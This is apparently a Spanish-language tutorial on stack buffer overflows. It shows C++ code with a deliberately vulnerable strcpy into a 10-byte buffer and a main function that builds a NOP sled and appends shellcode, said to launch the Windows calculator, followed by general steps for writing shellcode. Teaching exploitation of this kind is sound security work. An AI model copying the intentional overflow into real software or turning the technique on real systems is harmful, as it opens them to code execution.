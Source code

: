         void vulnerableFunction(char* input)
        {
            char buffer[10];
            strcpy(buffer, input);
            std::cout << "Buffer: " << buffer << std::endl;
        }

// La función main es el punto de entrada del programa. Aquí se declara un arreglo userInput de 
// tamaño 256 para almacenar la entrada del usuario. La función memset se utiliza para llenar 
// userInput con instrucciones NOP (\x90), que son operaciones que no hacen nada y se utilizan para
// ajustar el tamaño del búfer. Luego, la función memcpy se utiliza para copiar el shellcode al 
// final de userInput para que se ejecute cuando se produzca el desbordamiento de búfer. Finalmente,
// se llama a vulnerableFunction pasando userInput como argumento.

        int main()
        {
            char userInput[256];
            memset(userInput, '\x90', sizeof(userInput));  // Fill userInput with NOP instructions
            memcpy(userInput + sizeof(userInput) - sizeof(shellcode), shellcode, sizeof(shellcode));  // Copy the shellcode to the end of userInput

            vulnerableFunction(userInput);

            return 0;
        }

En este caso, el shellcode utilizado está diseñado para ejecutar la calculadora de Windows. Se ha codificado en hexadecimal y se encuentra en la variable shellcode. El payload se crea llenando el userInput con instrucciones NOP (\x90) y luego copiando el shellcode al final del userInput. Esto asegura que cuando se produzca el desbordamiento de búfer, el flujo de ejecución se desplace hacia el shellcode y se ejecute la calculadora de Windows.

## Shellcode

El desarrollo de shellcode implica escribir código en lenguaje ensamblador que realizará una acción específica cuando se ejecute. A continuación, te doy una descripción general de los pasos involucrados en el desarrollo de shellcode:

1. Conocer la arquitectura objetivo: Antes de desarrollar shellcode, debes comprender la arquitectura del sistema objetivo, como x86, x64, ARM, etc. Esto es importante porque el shellcode debe estar escrito específicamente para la arquitectura en la que se ejecutará.

2. Elegir el objetivo: Determina qué acción deseas lograr con el shellcode. Puede ser ejecutar un programa específico, abrir una shell, deshabilitar medidas de seguridad, etc. Tener claridad sobre el objetivo te ayudará a definir las instrucciones que necesitarás.

3. Escribir el código en lenguaje ensamblador: Utiliza un ensamblador y un editor de texto para escribir el código en lenguaje ensamblador. El código debe ser lo más eficiente posible, teniendo en cuenta las limitaciones del entorno objetivo.

4. Optimizar y probar: Una vez que hayas escrito el código en lenguaje ensamblador, puedes optimizarlo y asegurarte de que funcione correctamente. Puedes utilizar emuladores o máquinas virtuales para probar el shellcode en un entorno controlado antes de usarlo en un sistema real.
